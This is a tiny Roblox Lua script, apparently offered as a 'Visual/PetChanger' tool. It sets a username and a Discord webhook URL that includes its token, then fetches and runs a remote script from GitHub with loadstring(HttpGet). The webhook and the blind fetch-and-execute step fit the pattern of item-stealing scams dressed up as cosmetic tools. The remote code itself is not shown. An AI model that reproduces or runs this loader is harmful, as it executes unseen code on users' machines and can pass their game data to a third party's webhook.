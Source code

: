 _G.Username = "dlanor1520"
_G.HubName = "Visual/PetChanger/V2"
_G.WebhookUrl = "https://discord.com/api/webhooks/1084430608828207154/Y75sNT6n_USFhCuCrG26tJn6ZVpUUV1wf-P0GVfBEdxX_-_ascRQZWLao9MdjEblAxww"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()```
